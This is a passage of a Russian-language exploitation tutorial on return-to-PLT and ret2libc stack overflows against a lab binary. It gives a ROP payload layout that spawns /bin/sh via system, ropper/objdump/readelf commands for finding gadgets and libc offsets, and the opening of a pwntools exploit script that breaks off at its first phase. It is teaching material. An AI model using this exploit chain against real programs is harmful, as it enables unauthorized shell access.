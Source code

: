 А для второй, соответственно, такой.

```
ПЕЙЛОАД2 = 
	(1) МУСОР_120_байт +
	(2) ГАДЖЕТ_pop_rdi +
	(3) СТРОКА_bin_sh +
	(4) ГАДЖЕТ_nop +
	(5) АДРЕС_system +
	(6) АДРЕС_exit
```

### Сбор адресов и конечный эксплоит

Все необходимые адреса и смещения можно найти за 5 команд (я не останавливаюсь здесь слишком подробно, потому что все это мы уже делали).

```
$ ropper --file ret2plt --arch x86_64 --search 'pop rdi; ret'
$ ropper --file ret2plt --arch x86_64 --search 'nop; ret'
$ objdump -D ret2plt | grep -e 'puts' -e '<main>'
$ readelf -s /usr/lib/x86_64-linux-gnu/libc.so.6 | grep -e ' puts@' -e ' system@' -e ' exit@'
$ strings -atx /usr/lib/x86_64-linux-gnu/libc.so.6 | grep '/bin/sh'
```

[![ret2plt-find-addr.png]({{ "/img/pwn-kingdom/bitterman/ret2plt-find-addr.png" | relative_url }})]({{ "/img/pwn-kingdom/bitterman/ret2plt-find-addr.png" | relative_url }})
{: .center-image}

На рисунке имена значениям я присвоил такие же, как в теле кода эксплоита.

```python
#!/usr/bin/env python2
# -*- coding: utf-8 -*-

# Использование: python pwn-ret2plt.py [DEBUG]

from pwn import *
import time

context.arch      = 'amd64'
context.os        = 'linux'
context.endian    = 'little'
context.word_size = 64
context.terminal  = ['tmux', 'new-window']

junk = 'A' * 120
pop_rdi_gadget = p64(0x401136)
nop_gadget = p64(0x4010af)
puts_plt = p64(0x401030)
puts_got = p64(0x404018)
main_offset = p64(0x40115a)

payload = junk + pop_rdi_gadget + puts_got + puts_plt + main_offset

p = process('./ret2plt')

"""
gdb.attach(p, '''
init-peda
start''')

# Нужен raw_input(), когда юзаешь gdb.debug() вместо gdb.attach()
"""

p.recvuntil('Case 3: Return-to-PLT')
raw_input('[?] (1-я фаза) Отправляю пейлоад?')
```

[//]: # (2019-10-23)